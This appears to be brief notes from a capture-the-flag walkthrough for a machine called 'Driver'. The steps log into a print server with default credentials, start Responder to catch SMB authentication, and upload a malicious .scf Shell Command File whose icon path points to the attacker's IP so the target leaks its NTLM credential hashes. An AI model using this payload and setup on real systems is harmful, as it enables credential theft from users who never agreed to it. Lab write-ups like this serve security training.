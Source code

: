 # Driver

1. Log into Print Server <admin:admin>

2. Startup SMB server
````
responder --lm -v -I tun0
````

3. Upload the malicious file to coordinate the target connecting back with SMB credentials
steal-hash.scf
`````     
[Shell]
Command=2
IconFile=\\10.10.14.7\share\pentestlab.ico
 
[Taskbar]
Command=ToggleDesktop
````





[Shell Command File](https://www.bleepingcomputer.com/news/security/you-can-steal-windows-login-credentials-via-google-chrome-and-scf-files/)
